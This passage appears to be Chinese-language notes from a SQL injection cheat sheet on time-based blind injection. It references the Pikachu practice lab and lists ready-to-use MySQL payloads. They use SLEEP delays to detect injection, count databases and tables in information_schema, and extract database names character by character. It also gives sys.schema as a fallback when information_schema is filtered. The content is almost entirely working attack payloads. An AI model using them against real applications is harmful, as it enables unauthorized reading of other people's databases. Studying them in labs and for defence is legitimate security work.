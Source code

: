 ### 8.1. Probe

探测时间盲注是否可用

```
' AND SLEEP(3) -- 
```

### 8.2. Database

判断数据库的个数

```
' AND IF((SELECT COUNT(*) FROM information_schema.SCHEMATA) = 5, SLEEP(3), 1) -- 
```

判断第一个数据库名的字节长度

```
' AND IF((SELECT LENGTH(schema_name) FROM information_schema.SCHEMATA LIMIT 0, 1) = 18, SLEEP(3), 1) -- 
```

判断第一个数据库名的第一个字符

```
' AND IF(ASCII (SUBSTR((SELECT schema_name FROM information_schema.SCHEMATA LIMIT 0, 1), 1, 1)) = 105, SLEEP(3), 1) -- 
```

判断当前数据库名的字节长度

```
' AND IF(LENGTH(DATABASE()) = 7, SLEEP(3), 1) -- 
```

判断当前数据库名的第一个字符

```
' AND IF(ASCII(SUBSTR(DATABASE(), 1, 1)) = 112, SLEEP(3), 1) -- 
```

> 使用 `ASCII()` 将提取到的字符转换为 ASCII 码

### 8.2. Tables

判断指定数据库中数据表的个数

```
' AND IF((SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema='pikachu') = 5, SLEEP(3), 1) -- 
```

判断当前数据库中数据表的个数

```
' AND IF((SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema=DATABASE()) = 5, SLEEP(3), 1) -- 
```

> 当 `information_schema` 被过滤时可使用 `sys.schema` 
